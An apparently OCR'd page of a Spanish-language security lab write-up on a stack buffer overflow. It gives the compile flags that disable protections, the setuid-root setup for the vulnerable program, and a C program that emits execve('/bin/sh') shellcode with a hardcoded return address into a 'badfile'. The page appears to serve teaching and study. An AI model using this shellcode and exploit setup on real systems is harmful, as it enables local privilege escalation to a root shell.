 \documentclass[]{article}
\begin{document}
La aplicación vulnerable hay que compilarla con (para que el effective id sea el de root):

\begin{verbatim}
$ gcc bo2xploit.c -z execstack -fno-stack-protector -o bo2xploit -g
# chown root:root bo2xploit
# chmod 4755 bo2xploit
\end{verbatim}

\noindent Nota: la opción -g de depuración la hemos activado para poder depurar con gdb. No es necesaria, pero si no se usa habrá que cambiar la dirección a la que saltar (porque cambiará de posición el buffer).

En la aplicación vulnerable, podemos ver que hemos introducido un buffer de 24 bytes y que es justo el tamaño del ensamblador escrito en la primera parte. También \textbf{hemos metido 16 bytes de hueco porque si no los \textit{pushes} del ensamblador para hacer la llamada al sistema autodestruyen las propias instrucciones del programa}.  Además hemos introducido también un printf mostrando la posición de buffer para saber a donde hay que saltar.


\begin{minipage}{\linewidth}
Para generar el \textit{badfile}, ejecutamos este programa:

\begin{lstlisting}
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\x01\x01\x01\x01" /* huecos */
	"\xb0\xfa\xff\xbf" /* posicion del buffer en bo2xploit */ 
	"\xb0\xfa\xff\xbf" /* posicion del buffer en bo2xploit */ 
;

int main(int argc, char **argv)
{
	int i;
	for (i = 0; i < sizeof(code); i++)
		printf("%c",code[i]);
}
\end{lstlisting}
\end{minipage}

El programa no requiere ninguna opción de compilación especial, solamente redirigir la salida a badfile.
\end{document}
